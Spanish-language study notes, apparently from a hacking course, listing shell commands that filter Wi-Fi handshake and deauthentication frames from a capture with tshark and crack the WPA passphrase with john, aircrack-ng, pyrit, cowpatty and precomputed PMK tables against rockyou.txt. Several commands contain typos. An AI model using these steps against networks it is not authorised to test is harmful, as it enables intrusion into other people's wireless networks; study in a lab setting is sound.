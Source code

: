 	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" -Tfields -e wlan.addr 2>/dev/null | tr ',' '\n' --> la ultima salida da un salto de linea
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" -Tfields -e wlan.addr 2>/dev/null | tr ',' '\n' | sort -u
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==1" 2>/dev/null  --> filtra peticiones de association response
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==8" 2>/dev/null --> filtra paquetes beacon que es association
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==8" -Tjson 2>/dev/null
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==11" 2>/dev/null --> filtra paquetes de autenticacion 
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==11" -Tfields -e wlan.addr 2>/dev/null | tr ',' '\n' --> filtra macs de paquetes de autentiación
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==12" --> filtra paquetes de desautenticacón, los paquetes debieron ser desautenticados de manera global para obtener aquella informacion
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==12" -Tjson 2>/dev/null | grep -i "ff:ff:ff:ff:ff:ff" --> refleja tres wlans ra-ta-sa-da-addr y la interesante es la destination addres da
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==12" -Tfields -e wlan.da 2>/dev/null --> filtra el destination address da
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==12" -Tfields -e wlan.da 2>/dev/null | sort -u
	sudo tshark -r captura-01-cap -Y "wlan.fc.type_subtype==10" 2>/dev/null --? filtra paquetes de desasosiación, recordar que nose puede capturar todo paquete ya que se pierde en el camino
	sudo tshark -r captura-01-cap -Y "wlan.fc.type_subtype==10" 2>/dev/null --> captura paquetes ctsframe
	cat /etc/login.defs | grep -i "ENCRYPT_METHOD" --> logra ver el tipo de encriptado
	file captura-01.cap --> ve el tipo de archivo
	du -hc captura-01.cap --> ve el tamaño del archivo
	sudo aircrack-ng -J miCap captura-01.cap --> covierte la extesión cap en hccap
	du -hc micap.hccap
	sudo hccap2john micap.hccap > mi_hash --> saca el hash del archivo micapp.hccap
	sudo john --wordlist=/usr/share/wordlists/rockyou.txt mi_hash --> creaquea el hash
	sudo jhon --show mi_hash
	sudo aircrack-ng -w --wordlist=/usr/share/wordlists/rockyou.txtt captura-01.cap --> creaquea la contraseña del wifi
	locate john.pot --> indica donde estas los hashes crakeados
	cat /home/deed/.john/john.pot
	sudo pyrit -r captura-01.cap analyse --> visualiza el nombre del access point capturado
	sudo pyrit -r captura-01.cap -e name-access-point -i /usr/share/wordlists/rockyou.txt attack_passthrough --> creaquea la contraseña mediante el hash capturado
	sudo cowpatty -r captura-01.cap -f /usr/share/wordlists/rockyou.txt -s name-access-point --> crackea la hash
---
### Mejorando velocidad en crackeo de contraseñas
	sudo airolib-ng password-airolib --import passwd /usr/share/wordlists/rockyou.txt --> importa a un nuevo archivo, muda el rocyou a un sql
	file passwords-airolib
	echo "TEST-HACKING" > essid.lst --> creamos varias listas de nombres de access-point 
	cat !$
	sudo airolib-ng passwords-airolib --import essid essid.lst --> importa el listado al nuevo archivo
	sudo airolib-ng passwords-airolib --stats --> muestra el estado 
	sudo airolib-ng passwords-airolib --clean all --> limpia lineas erroneas
	sudo airolib-ng passwords-airollib --batch --> crea un diccionario de claves computadas y parar cuando se crea ecesario
	kill %%
	sudo aircrack-ng -r passwords-airolib captura-01.cap --> crackea el hash
	sudo genpmk -f /usr/share/wordlists/rockyou.txt -s TEST-HACKING -d dic.genpmk --> importa en una salida las contrase;as y el name-access/point en una rainbow table
	file dic.genpmk --> se lo fucionara con cowpatty
	sudo cowpatty -d dic.genpmk -r captura-cap -s TEST-HACKING --> crackea de forma mas rápida cuando usa rainbow Table
	sudo pyrit -e TEST-HACKING -i dic.genpmk -r captura-01.cap attack_cowpatty --> crakea a partir de cowpatty, es mucho más rápido